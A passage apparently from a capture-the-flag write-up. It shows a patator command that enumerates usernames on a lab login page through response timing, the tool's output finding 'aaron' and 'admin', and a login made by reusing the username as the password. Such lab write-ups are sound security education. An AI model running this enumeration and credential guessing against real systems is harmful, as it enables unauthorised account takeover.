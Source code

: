 ```
$ patator http_fuzz 'url=http://10.129.188.245/login.php?login=true' method=POST body='user=FILE0&password=a' 0=/opt/SecLists/Usernames/Names/names.txt  -x ignore:time=0-1
22:00:44 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-12-11 22:00 UTC
22:00:44 patator    INFO -
22:00:44 patator    INFO - code size:clen       time | candidate                          |   num | mesg
22:00:44 patator    INFO - -----------------------------------------------------------------------------
22:00:45 patator    INFO - 200  6357:5963      1.161 | aaron                              |     4 | HTTP/1.1 200 OK
22:00:45 patator    INFO - 200  6357:5963      1.161 | admin                              |    86 | HTTP/1.1 200 OK
22:01:17 patator    INFO - Hits/Done/Skip/Fail/Size: 2/10177/0/0/10177, Avg: 304 r/s, Time: 0h 0m 33s
```

Trying with the username as password aswell we are able to log into the application.

[![020_login_aaron](/img/timing/020_login_aaron.png)](/img/timing/020_login_aaron.png)
